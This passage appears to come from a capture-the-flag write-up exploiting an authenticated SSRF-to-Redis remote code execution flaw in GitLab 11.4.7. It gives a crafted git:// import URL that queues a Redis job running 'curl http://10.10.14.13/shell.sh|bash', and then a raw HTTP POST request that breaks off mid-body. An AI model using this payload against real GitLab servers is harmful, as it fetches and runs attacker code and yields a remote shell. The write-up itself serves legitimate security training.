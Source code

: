 This version is vulnerable to RCE based on `searchsploit`.

```
$ searchsploit gitlab 
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
GitLab - 'impersonate' Feature Privilege Escalation        | ruby/webapps/40236.txt
GitLab 11.4.7 - RCE (Authenticated) (2)                    | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)  | ruby/webapps/49257.py
```

We don't have credentials as the administrator, but we do have an account. Most of the exploits I found don't work that well, so let's exploit this manually.

First, we need to create a new project and import project via Repo by URL:

<figure><img src="../../../.gitbook/assets/image (126) (4).png" alt=""><figcaption></figcaption></figure>

Then, we need to send this within the Git Repository URL field:

```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/test
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|curl http://10.10.14.13/shell.sh|bash\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
%2F.git
```

The HTTP request should look like this:

{% code overflow="wrap" %}
```http
POST /projects HTTP/1.1
Host: 10.129.227.132:5080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.227.132:5080/projects
Content-Type: application/x-www-form-urlencoded
Content-Length: 754
Origin: http://10.129.227.132:5080
Connection: close
Cookie: _gitlab_session=adff4cd326df8cac71a662dfa591d79c; sidebar_collapsed=false; event_filter=all
Upgrade-Insecure-Requests: 1



utf8=%E2%9C%93&authenticity_token=r4%2FWxTxkvjl0JJxJ1q12HiZvhGxkJgc0J9QD%2BXOGKupa3WS76DnLIFSz4A1UOc9OiTrO3q%2Fk%2F%2Bw%2BLfMhXmD5Fg%3D%3D&project%5Bimport_url%5D=git://[0:0:0:0:0:ffff:127.0.0.1]:6379/test
 multi
```
